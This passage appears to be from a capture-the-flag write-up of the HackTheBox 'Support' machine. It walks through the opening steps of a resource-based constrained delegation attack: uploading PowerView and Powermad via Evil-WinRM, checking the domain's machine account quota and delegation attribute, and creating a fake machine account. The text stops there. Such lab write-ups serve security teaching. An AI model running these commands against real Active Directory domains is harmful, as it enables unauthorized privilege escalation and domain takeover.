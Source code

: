     Data: 369320 bytes of 369320 bytes copied

    Info: Upload successful!

    *Evil-WinRM* PS C:\programdata> . .\PowerView.ps1
    *Evil-WinRM* PS C:\programdata> . .\Powermad.ps1



#### Verify Environment

I'll need to know the administrator on DC, which Bloodhound tells me is
administrator@support.htb:

![](/img/image-20220527151617562.png)

I'll verify that users can add machines to the domain:



    *Evil-WinRM* PS C:\programdata> Get-DomainObject -Identity 'DC=SUPPORT,DC=HTB' | select ms-ds-machineaccountquota

    ms-ds-machineaccountquota
    -------------------------
                           10



The quote is set to the default of 10, which is good.

I'll also need to make sure there's a 2012+ DC in the environment:



    *Evil-WinRM* PS C:\programdata> Get-DomainController | select name,osversion | fl

    Name      : dc.support.htb
    OSVersion : Windows Server 2022 Standard



2022 Standard is great.

Finally, I'll want to check that the
`msds-allowedtoactonbehalfofotheridentity` is empty:



    *Evil-WinRM* PS C:\programdata> Get-DomainComputer DC | select name,msds-allowedtoactonbehalfofotheridentity | fl

    name                                     : DC
    msds-allowedtoactonbehalfofotheridentity :



It is.

#### Create FakeComputer

I'll use the Powermad `New-MachineAccount` to create a fake computer:



    *Evil-WinRM* PS C:\programdata> New-MachineAccount -MachineAccount 0xdfFakeComputer -Password $(ConvertTo-SecureString '0xdf0xdf123' -AsPlainText -Force)
    [+] Machine account 0xdfFakeComputer added
